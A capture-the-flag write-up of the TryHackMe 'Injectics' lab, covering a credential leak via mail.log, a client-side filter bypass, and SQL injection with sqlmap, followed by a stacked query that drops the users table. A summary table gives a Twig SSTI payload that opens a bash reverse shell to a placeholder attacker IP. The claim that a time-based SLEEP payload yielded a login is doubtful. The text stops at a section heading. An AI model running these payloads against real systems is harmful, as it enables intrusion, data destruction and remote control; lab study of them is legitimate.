# Injectics — Web Application Penetration Test

*From Information Disclosure to SQL Injection, Privileged Account Recovery, and Remote Code Execution via Server-Side Template Injection*

**TryHackMe Room:** Injectics &nbsp;|&nbsp; **Engagement Type:** Black-Box Web Application Assessment

**Target IP:** `10.49.167.83` &nbsp;|&nbsp; **Lab Version:** `injecticsv1.79-badr`

---

## Task Scenario

Injectics is a sports event / leaderboard web application for a fictional international competition. The engagement goal was to safeguard the platform by identifying and exploiting any injection-class vulnerabilities present in the login, administration, and profile-management features, in order to answer two objectives:

1. **What is the flag value after logging into the admin panel?**
2. **What is the content of the hidden text file in the `flags` folder?**

### Scope and Rules of Engagement

| Item | Detail |
|---|---|
| Target | `10.49.167.83` (Injectics web application) |
| Access | Directly reachable over HTTP, no VPN pivoting required |
| In scope | The web application, its backend (PHP/MySQL), and any exposed files |
| Out of scope | Denial of service, destructive actions beyond what the lab explicitly tolerates |


*Figure 1 — The public-facing Injectics leaderboard, the application's unauthenticated landing page.*

---

## Summary

The assessment began with a review of the login page's client-side source, which contained a developer comment disclosing that application mail was logged to a world-readable file (`mail.log`). Fetching that file directly leaked a table of **default/service credentials**, including a `superadmin` account — a pure **information disclosure** vulnerability with no exploitation required.

Those credentials did not work against the dedicated admin login endpoint, so attention shifted to the main login form. The form's client-side JavaScript implemented a **keyword blacklist filter**, but the filter only validated the `username` field — the `password` field was sent to the server completely unchecked, and the blacklist itself was case-sensitive and trivially bypassed. Capturing the raw login POST request in **Burp Suite** and fuzzing it with **sqlmap** confirmed a genuine, unsanitised, server-side **SQL injection** vulnerability (MySQL, time-based blind) in the `username` parameter of `functions.php`.

While manually exploring the authenticated session's leaderboard-editing feature, a crafted stacked-query payload (`4; drop table users -- -`) **dropped the entire `users` table**. Rather than being a dead end, a developer email found earlier in `mail.log` revealed that a scheduled service (`InjecticsService`) automatically **restores the `users` table with hardcoded default credentials** whenever it is deleted or corrupted — turning the accidental table drop into a reliable way to guarantee valid superadmin credentials existed in the database. Logging back in with those recovered credentials granted full administrative access and the **first flag**.

From the authenticated admin session, the **"Update Profile"** feature's `First Name` field was found to render through a **Twig template engine** without sanitisation, confirmed via a classic `{{7*7}}` → `49` **Server-Side Template Injection (SSTI)** probe. This was escalated to full **Remote Code Execution** using Twig's `map`/`sort` filter abuse technique to invoke PHP's `passthru()`, which was used to spawn a **reverse shell**. From the shell, the `/var/www/html/flags/` directory was listed and the hidden flag file was read directly, completing the **second objective**.

### Quick-Reference Answers

| Milestone | Answer |
|---|---|
| Leaked default admin credentials (`mail.log`) | `superadmin@injectics.thm` / `superSecurePasswd101` |
| SQL injection point | `username` parameter, `POST /functions.php` (MySQL, time-based blind) |
| Stacked-query payload that dropped the `users` table | `4; drop table users -- -` |
| Admin panel flag | `THM{INJECTICS_ADMIN_PANEL_007}` |
| SSTI injection point | `First Name` field, `POST /update_profile.php` (Twig) |
| Reverse shell payload | `{{['bash -c "bash -i >& /dev/tcp/<ATTACKER_IP>/1234 0>&1"','']|sort('passthru')}}` |
| Hidden flag file | `/var/www/html/flags/5d8af1dc14503c7e4bdc8e51a3469f48.txt` |
| Flags-folder flag | `THM{5735172b6c147f4dd649872f73e0fdea}` |

---

## Techniques, Commands, and Walkthrough

Techniques are grouped below in the order they were applied during the engagement. Each section names the technique category, the commands/payloads used (and why), and the corresponding evidence captured during testing. **Only steps that produced working results are included.**

### 1. Information Disclosure — Developer Comment Leading to Credential Leak

**Category:** Web Reconnaissance — Sensitive Information Disclosure

Viewing the page source of the login form (`login.php`) revealed an HTML comment left in by a developer, disclosing both the internal mail domain and the location of a server-side mail log:

```html
<!-- Website developed by John Tim - dev@injectics.thm-->
<!-- Mails are stored in mail.log file-->
```

Since no path was given, the file was assumed to sit in the web root and was requested directly:

```
http://10.49.167.83/mail.log
```

The file was returned as plain text with no authentication required, and contained an internal email from the developer to `superadmin@injectics.thm` describing a **self-healing database service** and listing its hardcoded default credentials in full:

```
| Email                     | Password           |
|---------------------------|---------------------|
| superadmin@injectics.thm  | superSecurePasswd101 |
| dev@injectics.thm         | devPasswd123         |
```


*Figure 2 — The standard login page (login.php), whose page source contained the developer comment that pointed to mail.log.*


*Figure 3 — mail.log, directly accessible with no authentication, disclosing default credentials for superadmin@injectics.thm and dev@injectics.thm, and describing the InjecticsService auto-restore behaviour that later became critical to the attack chain.*

> **Note:** These credentials did not work against `adminLogin007.php` at this stage of testing (see Figure 4) — but they became directly relevant later, once the `users` table was dropped and automatically repopulated by `InjecticsService` (see Technique 6).


*Figure 4 — The leaked superadmin credentials, tested against the separate adminLogin007.php endpoint, returning "Invalid email or password" at this point in testing.*

---

### 2. Client-Side Filter Analysis — Identifying an Incomplete Keyword Blacklist

**Category:** Web Application Logic Review — Client-Side Security Control Bypass

The main login form (`login.php`) posts to `functions.php` via an AJAX call defined in `script.js`. Reviewing that script's source directly (`view-source:http://10.49.167.83/script.js`) revealed the exact validation logic in use:

```javascript
$("#login-form").on("submit", function(e) {
    e.preventDefault();
    var username = $("#email").val();
    var password = $("#pwd").val();

    const invalidKeywords = ['or', 'and', 'union', 'select', "'", '"'];
    for (let keyword of invalidKeywords) {
        if (username.includes(keyword)) {
            alert('Invalid keywords detected');
            return false;
        }
    }

    $.ajax({
        url: 'functions.php',
        type: 'POST',
        data: { username: username, password: password, function: "login" },
        ...
    });
});
```

Two critical weaknesses were identified in this control:

1. **The blacklist loop only ever checks the `username` variable.** The `password` variable is sent to `functions.php` completely unfiltered.
2. **The blacklist is case-sensitive** (JavaScript `.includes()`), so even in `username`, uppercase keywords such as `OR` or `UNION` are not caught.

This is a purely client-side check with no server-side equivalent — meaning any request that bypasses the browser's JavaScript entirely (e.g. one replayed or edited through an intercepting proxy) is never evaluated against it at all.


*Figure 5 — An initial manual `' OR '1'='1'` style test submitted through the browser's Email field.*


*Figure 6 — The client-side JavaScript blacklist blocking a quote-based payload in the Email field with a browser alert — confirming a filter exists, but giving no information yet about whether it is enforced server-side.*


*Figure 7 — Full source of script.js, confirming the keyword blacklist only validates the username variable and that password is never checked before the AJAX POST to functions.php.*

---

### 3. Intercepting and Replaying the Login Request (Burp Suite)

**Category:** Web Proxy Interception — Bypassing Client-Side Controls

To bypass the JavaScript filter entirely, the browser's proxy was pointed at Burp Suite and the login request was intercepted, then sent to **Repeater** for manual, unrestricted editing — this guarantees the payload reaches `functions.php` exactly as typed, with no client-side interference:

```
POST /functions.php HTTP/1.1
Host: 10.49.167.83
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
X-Requested-With: XMLHttpRequest
Cookie: PHPSESSID=<session cookie>

username=test%40test.com&password=test&function=login
```

An initial manual SQLi attempt was placed in the `password` field (since that field has zero client-side filtering):

```
username=superadmin%40injectics.thm&password=' OR '1'='1' -- -&function=login
```

**Result:** `{"status":"error","message":"Invalid email or password"}` — no SQL syntax error was returned, and the login did not succeed, indicating this specific manual payload/field combination wasn't the exploitable path, and that automated testing was needed to find the correct parameter and technique.


*Figure 8 — The raw, unmodified login POST request as captured by Burp Suite, used as the base request for all further manual and automated testing.*


*Figure 9 — A manual `' OR '1'='1' -- -` payload placed in the password field, returned as a clean "Invalid email or password" JSON response rather than a SQL error — this ruled out the simplest manual bypass but did not rule out SQL injection itself.*

---

### 4. Automated SQL Injection Discovery & Confirmation (sqlmap)

**Category:** Web Application Exploitation — SQL Injection (Automated Detection)

The captured request was saved to a file (`req.txt`) and handed to **sqlmap**, which systematically tests every parameter against a full library of injection techniques (boolean-blind, error-based, time-based, UNION-based) far faster and more thoroughly than manual guessing:

```bash
sqlmap -r req.txt --batch
```

sqlmap confirmed the back-end database as MySQL and identified the **`username` POST parameter** as genuinely injectable via a **time-based blind** technique:

```
Parameter: username (POST)
    Type: time-based blind
    Title: MySQL >= 5.0.12 RLIKE time-based blind
    Payload: username=test@test.com' RLIKE SLEEP(5)-- yzUe&password=test&function=login
```


*Figure 10 — sqlmap output confirming the username POST parameter is vulnerable to MySQL time-based blind SQL injection, with the back-end DBMS, OS, and web server fingerprinted (Ubuntu, Apache 2.4.41, MySQL ≥ 5.0.12).*

With the injection point confirmed, the same payload style was replayed manually in Burp Repeater, this time correctly placed as a boolean/stacked tautology against the `username` field (bypassing the JS filter entirely, since Burp sends the request directly):

```
username=test@test.com' RLIKE SLEEP(5)-- yzUe&password=test&function=login
```

This returned a **successful authentication response**, logging in as an existing account rather than superadmin specifically, and confirming the injection could manipulate the query's logic to return arbitrary rows:

```json
{"status":"success","message":"Login successful","is_admin":"true","first_name":"dev","last_name":"dev","redirect_link":"dashboard.php?isadmin=false"}
```


*Figure 11 — A successful JSON login response obtained via the confirmed SQL injection payload in the username field, authenticating as the "dev" account with is_admin: "true" — though the redirect_link oddly still points to isadmin=false, an inconsistency investigated further below.*


*Figure 12 — The authenticated dashboard ("Welcome, dev!"), reached purely through the SQL injection auth bypass — no valid credentials were required at this stage.*

---

### 5. Second-Order SQL Injection — Stacked Query via the Leaderboard Edit Form

**Category:** Web Application Exploitation — Stacked-Query SQL Injection

Inspecting the "Edit" feature on the dashboard's leaderboard table (via the browser's element inspector) revealed that `edit_leaderboard.php` renders the row's `rank` value directly into a **hidden form field**, which is then POSTed back unsanitised:

```html
<form method="post" action="edit_leaderboard.php">
    <input type="hidden" name="rank" value="4; drop table users -- -">
    <input type="hidden" name="country" value="...">
    ...
</form>
```

Editing that hidden field's value directly in the browser's DOM inspector and submitting the form tested whether the backend permitted **stacked (multi-statement) queries** — a higher-impact variant of SQL injection than a simple tautology, since it allows entirely separate SQL statements to be appended and executed:

```sql
4; drop table users -- -
```

**Result:** The payload executed successfully as a second statement, **dropping the entire `users` table**. The application immediately began returning:

```
Seems like database or some important table is deleted. InjecticsService is running to restore it. Please wait for 1-2 minutes.
```


*Figure 13 — Browser DOM inspector showing the hidden "rank" input field on edit_leaderboard.php, edited to contain the stacked-query payload "4; drop table users -- -" before form submission.*


*Figure 14 — The application's response confirming the users table had been deleted and that the InjecticsService auto-recovery process (previously disclosed in mail.log) was running to restore it.*

---

### 6. Abusing the Self-Healing Service to Recover Guaranteed Admin Credentials

**Category:** Logic Flaw Abuse — Insecure Automatic Recovery / Hardcoded Default Credentials

